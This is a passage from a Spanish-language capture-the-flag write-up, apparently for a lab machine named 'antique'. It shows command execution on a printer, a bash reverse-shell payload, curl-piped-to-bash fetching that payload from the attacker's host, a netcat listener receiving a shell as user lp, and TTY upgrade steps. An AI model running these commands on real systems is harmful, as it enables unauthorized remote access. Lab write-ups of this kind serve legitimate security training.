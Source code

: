 Me doy cuenta de que puedo `ejecutar` cualquier `comando`

```
> exec which curl
/usr/bin/curl
```

## Instrusión

Debido a que puedo ejecutar comandos, voy a intentar mandarme una `shell` a mi `equipo`, para ello, me creo un `archivo` shell con este `payload`

```
bash -i >& /dev/tcp/10.10.16.16/9993 0>&1
```

Me monto un servidor `http` con `python` en el `mismo sitio` donde está el archivo `shell`

```
# python -m http.server 80     
```

Me pongo en `escucha` con `netcat` por el `puerto 9993`

```
# nc -nlvp 9993 
```

`Ejecuto` este `comando` en la impresora

```
> exec curl http://10.10.16.16/shell | bash
```

`Recibo` la `shell`

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.214.250] 33430
bash: cannot set terminal process group (1153): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

